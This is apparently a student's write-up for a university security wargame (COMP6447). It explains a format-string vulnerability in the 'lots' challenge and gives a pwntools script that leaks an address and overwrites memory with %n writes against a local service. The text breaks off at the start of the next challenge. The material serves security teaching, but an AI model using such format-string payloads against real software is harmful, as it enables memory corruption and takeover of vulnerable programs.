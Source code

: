 # **COMP6447 Wargame 1** - Johnathan Liauw (z5136212)
## **7. format-1 - lots**
_General overview of problems faced:_     
None

_List of vulnerabilities:_    
1. Format string vulnerability from the user's input

_Steps to exploit:_   
1. Find the format string offset to the first user input which is 7
2. Copy the address, put it at the start of the payload and an address+2 next
3. Calculate the bytes we have to write for "FRND", then write to address and address+2 using the format string offset

_Script/Command used:_    
```python
#!/usr/bin/python

from pwn import *
import re

host = "127.0.0.1"
port = 7001
write = "FRND"

c = remote(host, port)
#c = process("../lots")

reply = c.recvline()
addr = re.search('0x(.{8})', reply).group(0)
print("Address to overwrite: %s" % (addr))
addr = int(addr, 0)

c.recvline()

payload = "X"
payload += p32(addr)
payload += p32(addr+2)
payload += "%21053x"
payload += "%7$n"
payload += "%61960x"
payload += "%8$n"

c.sendline(payload)

print c.recvall()
```
---
## **8. format-2 - formatrix**
_General overview of problems faced:_   
1. Cannot write 2 bytes at a time like lots so I have to write one byte at a time
